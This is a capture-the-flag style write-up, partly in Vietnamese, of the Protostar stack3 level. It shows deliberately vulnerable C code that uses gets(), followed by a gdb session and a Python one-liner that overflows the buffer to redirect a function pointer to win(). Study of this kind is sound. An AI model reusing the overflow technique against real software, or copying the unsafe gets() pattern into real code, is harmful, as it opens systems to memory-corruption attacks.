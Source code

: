 # STACK THREE

## About

Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

Hints

  * both gdb and objdump is your friend you determining where the win() function lies in memory.

This level is at /opt/protostar/bin/stack3

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

## Solutions

`STACK THREE` quay lại với khai thác buffer overflow thông qua hàm nhập stdin gets().

Trong source code ta thấy hàm main khai báo một con trỏ hàm `volatile int (*fp)();`, con trỏ này nhận giá trị bằng 0 và nếu được thay đổi thỏa mãn điều kiện != 0 nó sẽ được gọi và chuyển flow chương trình tới địa chỉ mà nó trỏ tới. Và đề bài yêu cầu flow đến hàm `win()`, vậy nên điều đầu tiên đó là tìm địa chỉ của `win()` và sau đó ghi đè nó vào con trỏ hàm fp.

Tìm địa chỉ hàm win() qua gdb:

```
root@protostar:/opt/protostar/bin# gdb -q ./stack3                                                      
Reading symbols from /opt/protostar/bin/stack3...done.                                                  
(gdb) set disassembly-flavor intel                                                                      
(gdb) p win                                                                                             
$1 = {void (void)} 0x8048424 <win>                                                                      
(gdb)  
```

Việc tiếp theo là overwrite vào biến `fp` với giá trị là địa chỉ `win()` đã tìm ra ở trên:

```
root@protostar:/opt/protostar/bin# python -c 'print "A" * 64 + "\x24\x84\x04\x08"' | ./stack3           
calling function pointer, jumping to 0x08048424                                                         
code flow successfully changed
```

## Documents

<https://itandsecuritystuffs.wordpress.com/2014/03/18/understanding-buffer-overflows-attacks-part-1/>

<https://www.coengoedegebure.com/buffer-overflow-attacks-explained/>

<https://en.wikipedia.org/wiki/Endianness>




